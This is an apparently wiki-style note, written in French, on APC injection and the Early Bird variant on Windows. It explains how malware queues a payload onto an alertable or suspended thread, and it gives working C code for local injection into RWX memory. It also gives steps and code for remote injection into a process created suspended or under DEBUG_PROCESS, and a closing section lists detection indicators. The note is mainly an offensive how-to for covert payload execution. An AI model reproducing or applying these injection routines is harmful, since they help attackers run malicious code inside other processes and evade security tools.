


# Injection APC et Early Bird

L'injection APC est une seconde manière d'exécuter un payload sans créer de thread, en s'appuyant sur un mécanisme natif de Windows : les *Asynchronous Procedure Calls*. Elle complète le [[Détournement de threads]] et sert à la fois en local (module APC) et à distance via la variante Early Bird.

## Les APC en bref

Les *Asynchronous Procedure Calls* permettent à un programme d'exécuter des tâches de façon asynchrone tout en continuant ses autres traitements. Un APC est une routine noyau exécutée **dans le contexte d'un thread précis**. Le malware en profite pour mettre un payload en file d'attente : il sera exécuté quand l'APC sera ordonnancé.

Deux états de thread importent :

- **État alertable** : un thread en attente (*wait state*) devient alertable et entre dans une file de threads alertables, autorisés à exécuter les APC en attente.
- **Thread suspendu** : un thread créé suspendu est également une cible valide — à condition qu'il ait été créé ainsi, et non suspendu après coup.

## QueueUserAPC

Pour mettre en file un APC, on passe l'adresse de la fonction APC à `QueueUserAPC` :

```c
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,   // adresse de la fonction APC (ici : le payload)
  [in] HANDLE    hThread,  // thread alertable ou suspendu
  [in] ULONG_PTR dwData    // paramètres éventuels (NULL ici)
);
```

L'adresse du payload écrit en mémoire exécutable (`VirtualAlloc` + `VirtualProtect` en `PAGE_EXECUTE_READWRITE`) est passée en `pfnAPC`. Aucune structure `CONTEXT` n'est manipulée : la mécanique diffère du détournement de threads.

## Placer un thread en état alertable

Le thread devant exécuter l'APC doit être alertable. N'importe laquelle de ces API de synchronisation placée sur un thread suffit, sans se soucier de la correction des paramètres :

`Sleep`, `SleepEx`, `MsgWaitForMultipleObjects`, `MsgWaitForMultipleObjectsEx`, `WaitForSingleObject`, `WaitForSingleObjectEx`, `WaitForMultipleObjects`, `WaitForMultipleObjectsEx`, `SignalObjectAndWait`.

En pratique, on crée un événement factice avec `CreateEvent` et on « attend » dessus indéfiniment. Exemples équivalents :

```c
VOID AlertableFunction1() { Sleep(-1); }

VOID AlertableFunction2() { SleepEx(INFINITE, TRUE); }

VOID AlertableFunction3() {
    HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
    if (hEvent) {
        WaitForSingleObject(hEvent, INFINITE);
        CloseHandle(hEvent);
    }
}

VOID AlertableFunction4() {
    HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
    if (hEvent) {
        MsgWaitForMultipleObjects(1, &hEvent, TRUE, INFINITE, QS_INPUT);
        CloseHandle(hEvent);
    }
}

VOID AlertableFunction5() {
    HANDLE hEvent1 = CreateEvent(NULL, NULL, NULL, NULL);
    HANDLE hEvent2 = CreateEvent(NULL, NULL, NULL, NULL);
    if (hEvent1 && hEvent2) {
        SignalObjectAndWait(hEvent1, hEvent2, INFINITE, TRUE);
        CloseHandle(hEvent1);
        CloseHandle(hEvent2);
    }
}
```

## Logique d'implémentation locale

1. Créer un thread qui exécute l'une des fonctions ci-dessus pour le rendre alertable.
2. Injecter le payload en mémoire locale.
3. Passer le handle du thread et l'adresse de base du payload à `QueueUserAPC`.

```c
BOOL RunViaApcInjection(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

    PVOID pAddress        = NULL;
    DWORD dwOldProtection = NULL;

    pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pAddress == NULL)
        return FALSE;

    memcpy(pAddress, pPayload, sPayloadSize);

    if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection))
        return FALSE;

    // Alertable : l'APC s'exécute directement.
    // Suspendu : il faut ResumeThread ensuite.
    if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL))
        return FALSE;

    return TRUE;
}
```

Avec un thread suspendu, `QueueUserAPC` doit être appelé **puis** `ResumeThread` : le thread repris exécute l'APC en premier.



## Early Bird : APC vers un processus distant

En distant, le problème est qu'il est rare de trouver des threads alertables ou suspendus exploitables sous des privilèges utilisateur ordinaires. La solution : créer soi-même un processus suspendu avec `CreateProcess` ; son thread principal suspendu satisfait immédiatement le critère. C'est l'**Early Bird APC Injection**.

### Variante `CREATE_SUSPENDED`

1. Créer un processus suspendu (`CREATE_SUSPENDED`).
2. Écrire le payload dans son espace d'adressage (`VirtualAllocEx` + `WriteProcessMemory`).
3. Récupérer le handle du thread depuis `CreateProcess` et le passer à `QueueUserAPC` avec l'adresse du payload.
4. `ResumeThread` pour déclencher l'exécution.

### Variante `DEBUG_PROCESS`

Plutôt que de suspendre, on crée le processus comme processus *débogué* : le processus local devient son débogueur. À la création, un point d'arrêt est posé sur le point d'entrée, ce qui met le processus en pause en attendant que le débogueur (le malware) le reprenne.

1. Créer un processus débogué (`DEBUG_PROCESS`).
2. Écrire le payload dans l'espace d'adressage de la cible.
3. Passer le handle du thread débogué et l'adresse du payload à `QueueUserAPC`.
4. Se détacher avec `DebugActiveProcessStop(Pi.dwProcessId)` : les threads reprennent et exécutent le payload.

```c
// Création du processus cible suspendu
if (!CreateProcessA(
        NULL,
        lpPath,           // "%WINDIR%\\System32\\<processus>"
        NULL, NULL, FALSE,
        DEBUG_PROCESS,    // à la place de CREATE_SUSPENDED
        NULL, NULL, &Si, &Pi))
    return FALSE;

*dwProcessId = Pi.dwProcessId;
*hProcess    = Pi.hProcess;
*hThread     = Pi.hThread;
```

Le chemin cible est reconstruit depuis `WINDIR` comme dans [[Détournement de threads]] et [[Exécution locale de payload]].



## Comparaison des variantes

| Variante | Mécanisme de blocage | Déclencheur |
|---|---|---|
| APC local, thread alertable | Attente alertable | APC ordonnancé automatiquement |
| APC local, thread suspendu | `CREATE_SUSPENDED` | `ResumeThread` |
| Early Bird `CREATE_SUSPENDED` | Processus suspendu | `ResumeThread` |
| Early Bird `DEBUG_PROCESS` | Processus débogué | `DebugActiveProcessStop` |

## Détection et limites

- L'état alertable est rare dans un processus distant ordinaire, d'où le recours à la création d'un processus dédié, elle-même détectable.
- `QueueUserAPC` sur un thread d'un autre processus est un indicateur connu, tout comme la séquence `CREATE_SUSPENDED` (ou `DEBUG_PROCESS`) suivie d'écritures mémoire et d'une reprise.
- Un processus créé en `DEBUG_PROCESS` apparaît en violet dans les outils comme Process Hacker : le débogage inattendu d'un processus est visible.
- `DebugActiveProcessStop` juste après une création en `DEBUG_PROCESS` casse le schéma classique d'un vrai débogueur.
- Le payload reste dans une région privée `RWX` : voir [[Mécanismes de détection]], [[Injection par mapping]] et [[Function stomping]] pour des alternatives moins exposées.
